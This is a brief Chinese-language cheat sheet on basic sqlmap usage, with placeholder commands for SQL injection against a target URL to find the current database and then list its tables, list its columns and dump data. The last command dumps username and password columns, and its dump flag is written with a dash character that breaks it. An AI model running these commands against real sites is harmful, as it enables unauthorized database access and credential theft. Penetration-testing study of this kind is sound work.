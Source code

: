 # sqlmap基础使用

## 爆库名称

```bash
python sqlmap.py -u target_url --current-db
```

## 爆表名称

```bash
python sqlmap.py -u target_url  -D database_name --tables

```

## 爆字段

```bash
python sqlmap.py -u target_url -D database_name -T table_name 
```

## 爆数据

```bash
python sqlmap.py -u target_url -D database_name -T table_name  -C username,password –dump
```

